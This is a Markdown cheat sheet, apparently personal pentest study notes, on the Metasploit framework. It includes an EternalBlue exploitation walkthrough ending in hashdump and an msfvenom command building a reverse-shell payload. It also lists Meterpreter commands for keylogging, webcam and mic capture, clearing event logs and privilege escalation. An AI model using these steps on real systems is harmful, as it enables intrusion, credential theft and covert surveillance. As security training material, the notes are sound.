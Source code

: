 # Metasploit

## Background

Metasploit is an open-source exploitation framework that provides a platform to automate and simplify the process of discovering, exploiting and reporting vulnerabilities in a target system. The framework integrates a large collection of exploits, payloads, and auxiliary modules to aid in a wide range of security testing tasks.

## Installation

## Usage

The steps for using Metasploit include:

Installing and setting up the Metasploit Framework on your computer.
Finding a target and determining what vulnerabilities it may have.
Selecting and configuring an appropriate exploit module in Metasploit.
Launching the exploit against the target and assessing the results.
Post-exploitation activities, such as gathering information, installing backdoors, or pivoting to other systems.



`msfconsole`
`use`
`show options`
`info`
`search`
`search apache`
`search portscan`
`set PARAMETER_NAME VALUE`
`unset`
`setg`
`exploit -z`
`check`
`sessions -i`
`msfvenom`
`scanner/discovery/udp_sweep`
`msfdb init`
`db_status`
`workspace -h`
Use msfdb to use stored information about current project/workspace
Common vulnerable services:

* HTTP
* FTP
* SMB
* SSH
* RDP

To exploit eternal blue:

`msconsole`
`search eternalblue`
`use 0`
`show payloads`
`set payload 2`
`set RHOSTS {targetIP}`
`show options` (ensure lhosts = {attackIP})
`exploit`
Upon session connection, use CTRL+Z to put session in background
`use_shell_to_meterpreter`
`show options`
`set SESSION 1`
`sessions -u 1`
`hashdump`

Msfvenom: used to generate payloads

`msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf`

Meterpreter: metasploit payload with pentesting components
Show meterpreter payloads: msfvenom --list payloads | grep meterpreter

Meterpreter Commands

Core commands

background: Backgrounds the current session
exit: Terminate the Meterpreter session
guid: Get the session GUID (Globally Unique Identifier)
help: Displays the help menu
info: Displays information about a Post module
irb: Opens an interactive Ruby shell on the current session
load: Loads one or more Meterpreter extensions
migrate: Allows you to migrate Meterpreter to another process
run: Executes a Meterpreter script or Post module
sessions: Quickly switch to another session

File system commands

cd: Will change directory
ls: Will list files in the current directory (dir will also work)
pwd: Prints the current working directory
edit: will allow you to edit a file
cat: Will show the contents of a file to the screen
rm: Will delete the specified file
search: Will search for files
upload: Will upload a file or directory
download: Will download a file or directory

Networking commands

arp: Displays the host ARP (Address Resolution Protocol) cache
ifconfig: Displays network interfaces available on the target system
netstat: Displays the network connections
portfwd: Forwards a local port to a remote service
route: Allows you to view and modify the routing table

System commands

clearev: Clears the event logs
execute: Executes a command
getpid: Shows the current process identifier
getuid: Shows the user that Meterpreter is running as
kill: Terminates a process
pkill: Terminates processes by name
ps: Lists running processes
reboot: Reboots the remote computer
shell: Drops into a system command shell
shutdown: Shuts down the remote computer
sysinfo: Gets information about the remote system, such as OS

Others Commands (these will be listed under different menu categories in the help menu)

idletime: Returns the number of seconds the remote user has been idle
keyscan_dump: Dumps the keystroke buffer
keyscan_start: Starts capturing keystrokes
keyscan_stop: Stops capturing keystrokes
screenshare: Allows you to watch the remote user's desktop in real time
screenshot: Grabs a screenshot of the interactive desktop
record_mic: Records audio from the default microphone for X seconds
webcam_chat: Starts a video chat
webcam_list: Lists webcams
webcam_snap: Takes a snapshot from the specified webcam
webcam_stream: Plays a video stream from the specified webcam
getsystem: Attempts to elevate your privilege to that of local system
hashdump: Dumps the contents of the SAM database

Meterpreter Post Exploitation Commands

* getuid: user Meterpreter using
* ps: running processes
* Migrate: interacting with other processes: migrate PID
* Hashdump: dump content of SAM to get NTLM hashes
* Search: locate files: search -f */txt
* getsystem
* Load command

* Common paramaters:
  * RHOSTS
  * RPORT
  * PAYLOAD
  * LHOST
  * LPORT
  * SESSION


## Resources

* <https://docs.metasploit.com/>

<https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md>
<https://github.com/swisskyrepo/PayloadsAllTheThings>
<https://github.com/security-cheatsheet/metasploit-cheat-sheet>
<https://github.com/spy86/Metasploit-Cheat-Sheet>

* The Metasploit official documentation, which provides in-depth information on how to use the tool and its various features.
* Metasploit Unleashed, a free online resource that provides a comprehensive guide to using Metasploit, including tutorials and examples.
* Metasploit YouTube channel, which features a variety of tutorials and demonstrations on how to use Metasploit.
* Online forums and communities dedicated to Metasploit, where users can ask questions and share information.
* Metasploit Pro, a paid version of the tool that includes additional features and support options. This can be a good resource for users who want additional assistance and resources for using Metasploit.

https://nitesculucian.github.io/2018/12/01/metasploit-cheat-sheet/

https://github.com/security-cheatsheet/metasploit-cheat-sheet


https://raw.githubusercontent.com/swisskyrepo/PayloadsAllTheThings/master/Methodology%20and%20Resources/Metasploit%20-%20Cheatsheet.md

https://subscription.packtpub.com/book/security/9781838980078/15/ch15lvl1sec96/cheat-sheets-for-metasploit-and-penetration-testing

https://www.stationx.net/metasploit-cheat-sheet/
